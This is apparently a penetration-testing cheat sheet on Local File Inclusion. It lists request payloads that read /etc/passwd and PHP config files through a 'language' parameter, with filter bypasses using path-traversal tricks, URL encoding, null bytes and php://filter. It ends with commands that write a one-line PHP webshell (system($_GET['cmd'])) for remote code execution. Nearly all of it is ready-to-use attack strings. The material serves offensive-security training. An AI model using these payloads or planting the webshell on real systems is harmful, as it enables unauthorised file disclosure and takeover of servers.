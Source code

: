 > ⚠️ **PAY ATTENTION:**
> 
> Try all of the possible file inclusion techniques after the basics ones!.

> ⚠️ **PAY ATTENTION:**
> 
> We may be able to also abuse a file inclusion via a second-order attack if we abuse a web functionality that utilizes our poisoned entry, e.g: A web app that let us download our profile picture and our name is something like `../../../etc/passwd`.

## File Disclosure
### Basic Local File Inclusion
|**Command**|**Description**|
|---|---|
|`/index.php?language=/etc/passwd`|Basic LFI|
|`/index.php?language=../../../../etc/passwd`|LFI with path traversal|
|`/index.php?language=/../../../etc/passwd`|LFI with name prefix|
|`/index.php?language=./languages/../../../../etc/passwd`|LFI with approved path|

### Local File Inclusion Bypasses
|**Command**|**Description**|
|---|---|
|`/index.php?language=....//....//....//....//etc/passwd`|Bypass basic path traversal filter|
|`/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`|Bypass filters with URL encoding|
|`/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`|Bypass appended extension with path truncation (obsolete)|
|`/index.php?language=../../../../etc/passwd%00`|Bypass appended extension with null byte (obsolete)|
|`/index.php?language=php://filter/read=convert.base64-encode/resource=config`|Read PHP with base64 filter|

>**ℹ️ Info:**
>
>Look for more `.php` files to read with the base64 filter.

> ⚠️ **PAY ATTENTION:**
> 
> Double URL-encoding might also work.

## Remote Code Execution
Prepare the webshell:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
